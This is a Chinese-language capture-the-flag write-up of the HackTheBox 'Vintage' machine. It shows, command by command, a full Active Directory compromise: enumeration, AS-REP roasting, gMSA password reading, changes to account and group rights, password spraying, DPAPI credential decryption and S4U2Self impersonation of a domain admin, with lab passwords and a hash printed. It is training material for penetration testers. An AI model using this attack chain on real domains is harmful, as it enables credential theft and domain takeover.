# 域渗透实战之HTB-Vintage-先知社区

> **来源**: https://xz.aliyun.com/news/16222  
> **文章ID**: 16222

---

  
As is common in real life Windows pentests, you will start the Vintage box with credentials for the following account: P.Rosa / Rosaisbest123  
获得初始凭据：P.Rosa / Rosaisbest123

# 信息收集

## 端口探测

```
nmap -sT --min-rate 10000 -p- 10.10.11.45 -oA nmapscan/port
```



对端口进行详细扫描

```
grep open nmapscan/port.nmap | awk -F'/' '{print $1}' | paste -sd ','
..............
nmap -sTVC -O -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49668,49670,49681,55603,55678,61587 10.10.11.45
```



## 服务枚举

### LDAP服务利用

#### 基础信息收集

```
ldapsearch -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b '' -s base "(objectclass=user)"
```

发现ldapServiceName: vintage.htb:dc01$@VINTAGE.HTB  
写入到/etc/hosts

#### 借助Windapsearch枚举信息

<https://github.com/ropnop/windapsearch/blob/master/windapsearch.py>

```
python3 windapsearch.py  --dc-ip 10.10.11.45 -u P.Rosa@vintage.htb -p Rosaisbest123 -U
```



获得一组凭据

```
Administrator
Guest
krbtgt
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```



```
python3 windapsearch.py  --dc-ip 10.10.11.45 -u P.Rosa@vintage.htb -p Rosaisbest123 -C
```

将获得的域名写入/etc/hosts

### SMB服务利用

尝试匿名登录及先前获得的凭据登录



出现：NT\_STATUS\_NOT\_SUPPORTED及STATUS\_NOT\_SUPPORTED  
可能是不支持当前身份验证，我们采用Kerberos验证登录

```
impacket-getTGT vintage.htb/P.Rosa:'Rosaisbest123' -dc-ip 10.10.11.45
export KRB5CCNAME=P.Rosa.ccache
```



出现：KRB\_AP\_ERR\_SKEW(Clock skew too great)  
时间同步的问题，解决方案如下：  
<https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069>

```
sudo timedatectl set-ntp off
sudo rdate -n vintage.htb
```



再次登录SMB服务

```
crackmapexec smb dc01.vintage.htb -d vintage.htb -k --use-kcache --shares
```



```
smbclient //10.10.11.45/IPC$ -U 'vintage.htb\\P.Rosa'  --use-kerberos
```

查看一下，发现不支持



#### 利用SMB服务枚举有效用户名

```
crackmapexec smb dc01.vintage.htb -d vintage.htb -k --use-kcache --rid-brute
```

原本打算用crackmapexec但报错了



```
netexec smb dc01.vintage.htb -d vintage.htb -k --use-kcache --rid-brute
```



成功爆破出来，简单处理一下数据，在结合windapsearch得到的用户去重得到user\_list

```
Administrator 
C.Neri
C.Neri_adm
DC01$
FS01$
gMSA01$
Guest
G.Viola
krbtgt
L.Bianchi
L.Bianchi_adm
M.Rossi
P.Rosa
R.Verdi
svc_ark
svc_ldap
svc_sql
```

### Kerberos服务利用

既然手里有了一组凭据，我们应该能想到Do not require Kerberos preauthentication

#### AS-REPRoasting

```
impacket-GetNPUsers -dc-ip 10.10.11.45 -no-pass -request -usersfile user_list vintage.htb/
```



不太幸运，并没有爆破成功

# Bloodhound利用

```
bloodhound-python -c All -u P.Rosa -p Rosaisbest123 -ns 10.10.11.45 -d vintage.htb -dc dc01.vintage.htb --zip
```

收集一下信息，然后sudo neo4j restart，最后启动bloodhound  
枚举了一圈，以当前获得凭据的用户P.Rosa找不到提权路径，FS01为WINDOWS 2000 Compatible Access组，可以用这个来找突破点

### 借助pre2k枚举有效用户

<https://github.com/garrettfoster13/pre2k>  
Pre2k 是一个用于查询 Windows 2000 之前的计算机对象是否存在的工具，可利用该工具在[TrustedSec 的](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)[@Oddvarmoe](https://twitter.com/Oddvarmoe)发现的目标域中获得立足点。 Pre2k 可以从未经身份验证的上下文运行，以从提供的恢复主机名列表（例如从 RPC/LDAP 空绑定）执行密码喷射，或从经过身份验证的上下文运行以执行有针对性的或广泛的密码喷射。用户可以灵活地针对每台计算机或在第一次成功的身份验证时停止，还可以在当前工作目录中以`.ccache`形式请求和存储有效的 TGT  
使用<https://github.com/garrettfoster13/pre2k-TS/blob/main/pre2k.py这个脚本来枚举有效用户>

```
python3 pre2k.py unauth -d vintage.htb -dc-ip dc01.vintage.htb -inputfile user_list
```


找到一个用户，可以指定-save参数保存票据，也可以借助impacket-getTGT来申请票据



```
impacket-getTGT vintage.htb/FS01$:fs01
export KRB5CCNAME=FS01\$.ccache
```



有了FS01$用户再去Bloodhound里面分析

### 域内关系分析



FS01属于DOMAIN COMPUTERS组，而这个组对GMSA01具有ReadGMSAPassword的权限，可以读到密码，然后我再以GMAS01的视角去分析



GMSA01用户对SERVICEMANAGERS组有AddSelf和GenericWrite的权限，我们可以将已经获得的机器加入这个组，接着我们再以SERVICEMANAGERS组的视角来分析



SERVICEMANAGERS组对svc\_ark,svc\_ldap,svc\_sql这三个用户具有GenericAll的权限，这是个突破点，因为具有GenericAll权限，有很多事可以做。  
思路连一下：先通过FS01拿下GMSA01，然后把GMSA01加入SERVICEMANAGERS组，操作该组的三个用户，看看能否获得立足点

# 建立立足点

## 利用ReadGMSAPassword读取密码

<https://medium.com/@offsecdeer/attacking-group-managed-service-accounts-gmsa-5e9c54c56e49>  
我参考这篇文章找到了<https://github.com/micahvandeusen/gMSADumper>



但在实现的过程中遇到了，解决不了的问题



我们无非是想获得GMSA01$的msDS-ManagedPassword属性,经过一番搜索找到这篇文章  
<https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword>



尝试使用bloodyAD

```
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword
```





## 再次AS-REPRoasting

通过前面的AS-REPRoasting我们发现SERVICEMANAGERS组内的三个成员有两个都禁用了域认证，但爆破不出来hash，尝试禁用svc\_sql的域认证试试能不能爆破出密码  
使用GMSA01的凭证申请票据

```
impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
export KRB5CCNAME=GMSA01\$.ccache
```

接下来把GMSA01加入到SERVICEMANAGERS组

```
bloodyAD --host dc01.vintage.htb -d "vintage.htb" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "GMSA01$"
```



借助SERVICEMANAGERS具有的权限，禁用svc\_sql的域认证  
操作之前，记得重新申请一下GMSA01$的票据

```
bloodyAD --host dc01.vintage.htb -d "vintage.htb" --dc-ip 10.10.11.45 -k add uac svc_sql -f DONT_REQ_PREAUTH
```


失败了，应该是设置了不能身份验证

```
bloodyAD --host dc01.vintage.htb -d "vintage.htb" --dc-ip 10.10.11.45 -k get search  --filter "(objectClass=user)" --attr userAccountControl
看一下userAccountControl 属性
```



被禁用了，开启一下就行

```
bloodyAD --host dc01.vintage.htb -d "vintage.htb" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
```

再次AS-REPRoasting成功爆出hash，使用john解密



成功获得密码：Zer0the0ne

## 密码喷洒

```
./kerbrute_linux_amd64 passwordspray --dc 10.10.11.45 -d vintage.htb  user_list Zer0the0ne
```



爆破出C.Neri:Zer0the0ne，和svc\_sql:Zer0the0ne

```
evil-winrm -i dc01.vintage.htb -u C.Neri -p "Zer0the0ne"
```

明文登录失败，尝试Kerberos认证登录，先申请一下票据

```
impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb
```



但是需要配置/etc/krb5.conf，上网简单搜了下，找到一个脚本



<https://gist.github.com/zhsh9/f1ba951ec1eb3de401707bbbec407b98>

```
import os
import sys
import argparse

def get_config(domain_fqdn: str, dc_name: str):
    return f"""[libdefault]
    default_realm = {domain_fqdn.upper()}

    [realms]
    {domain_fqdn.upper()} = {{
        kdc = {dc_name.lower()}.{domain_fqdn.lower()}
        admin_server = {dc_name.lower()}.{domain_fqdn.lower()}
    }}

    [domain_realm]
    {domain_fqdn.lower()} = {domain_fqdn.upper()}
    .{domain_fqdn.lower()} = {domain_fqdn.upper()}
    """

def request_root():
    if os.geteuid() != 0:
        print("[*] This script must be run as root")
        args = ["sudo", sys.executable] + sys.argv + [os.environ]
        os.execlpe("sudo", *args)

def main():
    parser = argparse.ArgumentParser(description="Configure krb5.conf for evil-winrm")
    parser.add_argument("domain_fqdn", help="Domain FQDN")
    parser.add_argument("dc_name", help="Domain Controller Name")
    args = parser.parse_args()

    request_root()

    config_data = get_config(args.domain_fqdn, args.dc_name)
    print("[*] Configuration Data:")
    print(config_data)

    confirm = input("\n[!] Above Configuration will overwrite /etc/krb5.conf, are you sure? [y/N] ")
    if confirm.lower() != "y":
        print("[!] Aborting")
        sys.exit(1)

    with open("/etc/krb5.conf", "w") as f:
        f.write(config_data)

    print("[+] /etc/krb5.conf has been configured")

if __name__ == "__main__":
    main()
```



# 权限提升

获得立足点后，进行了一些枚举，打算上传一些自动化收集信息的exe，但本地有杀软，举步维艰  
至此，笔者无法在进一步操作，参考了一些wp，提到了DPAPI，以此为突破口

## 借助DPAPI获取凭证

参考：  
<https://jkme.github.io/2020/04/13/dpapi-pass-dump.html>  
<https://htb.linuxsec.org/active-directory/credential-hunting/dpapi>  
<https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/credential-harvesting/dpapi>  
DPAPI(Date Protection Application Programming Interface)，从windows2000之后，微软提供的一个特殊数据保护接口，使用了对称的加解密函数对密码加密。包括:

* IE、Chrome密码登陆表单的自动完成
* 邮箱客户端用户密码
* FTP管理账户密码
* 远程桌面身份密码  
  我们的目的是找主密钥，找凭证文件

  ```
  找主密钥
  dir /A C:\Users\yuyudhn\AppData\Roaming\Microsoft\Protect\
  dir /A C:\Users\yuyudhn\AppData\Local\Microsoft\Protect\
  Get-ChildItem -Force C:\Users\yuyudhn\AppData\Roaming\Microsoft\Protect\
  Get-ChildItem -Force C:\Users\yuyudhn\AppData\Local\Microsoft\Protect\
  ```

  主密钥结构通常为C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID

  ```
  找凭证
  dir /A C:\Users\yuyudhn\AppData\Local\Microsoft\Credentials\
  dir /A C:\Users\yuyudhn\AppData\Roaming\Microsoft\Credentials\
  Get-ChildItem -Force C:\Users\yuyudhn\AppData\Local\Microsoft\Credentials\
  Get-ChildItem -Force C:\Users\yuyudhn\AppData\Roaming\Microsoft\Credentials\
  ```

  下载凭证文件：



下载主密钥：



解密主密钥：

```
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
```

解密凭证：

```
impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

最后获得凭据c.neri\_adm:Uncr4ck4bl3P4ssW0rd0312

## 以c.neri\_adm视角域内分析



看一下这个组



三个用户，其中两个我们都已拿下，看看L.BIANCHI\_ADM



有DCSync的权限，利用S4U2SELF，模拟L.BINANCHI\_ADM来访问有SPN的用户



而我们当前登录winrm的用户c.neri属于SERVICEMANAGERS组对svc\_sql有完全权限，那我们就给svc\_sql添加SPN，然后模拟L.BINANCHI\_ADM来访问它

## 利用S4U2SELF提权

查看一下svc\_sql的SPN(ServicePrincipalNames)

```
Get-ADUser -Identity svc_sql -Properties ServicePrincipalNames
```

添加SPN

```
Set-ADUser -Identity svc_sql -Add @{servicePrincipalName="cifs/test"}
或者使用bloodyAD
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName -v "cifs/test"
```


```
impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0n'
```

这样就会获得L.BIANCHI\_ADM的票据，但在操作过程中遇到了报错



后续，通过bloodyAD将svc\_sql再次加入到DELEGATEDADMINS组解决了这个问题，但我在bloodhound-python收集的信息是svc\_sql本就在该组内，这点比较困惑

```
bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
```

执行后成功取回票据



本来想用winrm登录但报错了，我们使用impacket-wmiexec登录

```
impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb
```


